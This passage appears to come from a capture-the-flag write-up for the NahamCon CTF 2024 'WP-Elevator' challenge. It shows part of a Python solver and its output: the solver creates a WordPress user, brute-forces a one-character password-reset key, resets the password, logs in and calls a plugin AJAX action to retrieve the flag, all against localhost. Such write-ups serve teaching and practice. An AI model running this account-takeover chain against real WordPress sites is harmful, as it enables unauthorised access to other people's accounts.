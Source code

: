 ```python
            'log': self.username,
            'pwd': self.password
        }
        self.session.post(f'{self.baseUrl}{self.LOGIN_PAGE_ENDPOINT}',
                          data=bodyData)
        print(f'[+] Logged in as user "{self.username}"')

    def getValidNonce(self):
        print('[*] Getting a valid nonce...')
        response = self.session.get(f'{self.baseUrl}{self.AJAX_ENDPOINT}{self.AJAX_ACTION_GET_LATEST_POSTS}')
        self.nonce = response.json()['data']['nonce']

        print(f'[+] Valid nonce: "{self.nonce}"')

    def getFlag(self):
        print(f'[*] Getting the flag with nonce "{self.nonce}"...')
        nonceParameter = f'&nonce={self.nonce}'
        response = self.session.get(f'{self.baseUrl}{self.AJAX_ENDPOINT}{self.AJAX_ACTION_PATCHSTACK_FLAGGER}{nonceParameter}')

        flag = response.json()['data']['value']
        print(f'[+] We got the flag: "{flag}"')


    def solve(self):
        self.createNewUser()
        self.generateActivationKey()
        self.resetPassword()

        self.login()
        self.getValidNonce()
        self.getFlag()

if __name__ == '__main__':
    baseUrl = 'http://localhost:8686' # change this URL if needed
    solver = Solver(baseUrl)

    solver.solve()
```

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Sponsorship/WP-Elevator)-[2024.05.28|18:04:33(HKT)]
└> python3 solve.py
[*] Creating a new user...
[+] Created a new user. Username: lfylselqcx, user ID: 2
[*] Generating a password reset activation key for user "lfylselqcx"...
[+] Generated a password reset activation key for user "lfylselqcx"
[*] Resetting password for user "lfylselqcx"...
[*] Trying key "a"...
[*] Trying key "b"...
[...]
[*] Trying key "A"...
[*] Trying key "B"...
[*] Trying key "C"...
[+] Found the correct password reset activation key "C"!
[+] User lfylselqcx's password has been reset to "moyuhpgxzz"
[*] Logging in as user "lfylselqcx"...
[+] Logged in as user "lfylselqcx"
[*] Getting a valid nonce...
[+] Valid nonce: "415a04ae4b"
[*] Getting the flag with nonce "415a04ae4b"...
[+] We got the flag: "CTF{DEFINETLY_NOT_THE_FLAG}"
```